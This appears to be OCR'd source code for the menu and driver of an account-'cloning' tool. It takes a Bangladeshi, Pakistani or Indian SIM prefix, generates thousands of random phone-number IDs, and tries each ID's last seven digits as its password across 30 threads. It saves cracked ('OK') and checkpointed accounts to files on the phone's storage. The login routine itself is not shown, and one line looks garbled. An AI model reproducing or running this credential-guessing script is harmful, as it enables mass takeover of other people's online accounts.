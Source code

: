 def pass1():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER D4DY-M4H1N\033[1;91m                :\033[1;96m "+D4DY-M4H1NX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m1') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,]
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()
